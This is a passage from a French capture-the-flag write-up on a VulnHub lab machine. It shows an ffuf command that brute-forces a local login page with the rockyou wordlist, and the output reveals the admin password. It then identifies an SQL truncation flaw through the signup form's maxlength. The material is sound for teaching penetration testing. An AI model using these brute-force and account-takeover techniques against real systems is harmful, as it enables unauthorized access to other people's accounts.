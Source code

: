 Si je tente d'enregistrer ces comptes, seuls trois donnent une erreur pour dire qu'ils existent déjà :

`hr@tornado`, `admin@tornado`, `jacob@tornado`

On peut casser le mot de passe du compte `admin` facilement :

```console
$ ffuf -u http://192.168.56.114/bluesky/login.php -w wordlists/rockyou.txt -X POST -d 'uname=admin@tornado&upass=FUZZ&btn=Login' -H "Content-type: application/x-www-form-urlencoded" -fs 878

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://192.168.56.114/bluesky/login.php
 :: Wordlist         : FUZZ: wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : uname=admin@tornado&upass=FUZZ&btn=Login
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 878
________________________________________________

hello                   [Status: 302, Size: 824, Words: 65, Lines: 39, Duration: 9ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Toutefois, une fois connecté, on ne trouve rien d'intéressant. On va se concentrer sur les comptes restants.

### Renaultfuego

Si on regarde attentivement le code HTML dans `signup.php` et aussi dans `login.php` on remarque la présence d'une limite sur le nombre de caractères autorisés :

```html
<form method="POST" style="text-align:center;">
<input type="text" name="uname" placeholder="email" maxlength="13"><br><br>
<input type="password" name="upass" placeholder="password"><br><br>
<input type="submit" value="Signup" name="btn" class="button"><br>
</form>
```

13 c'est exactement la taille de `jacob@tornado`. On est en fait sur un scénario de vulnérabilité SQL Truncation comme sur [le CTF OwlNest de VulnHub]({% link _posts/2022-12-18-Solution-du-CTF-OwlNest-de-VulnHub.md %}#%C3%AAtre-admin-%C3%A0-la-place-de-ladmin).
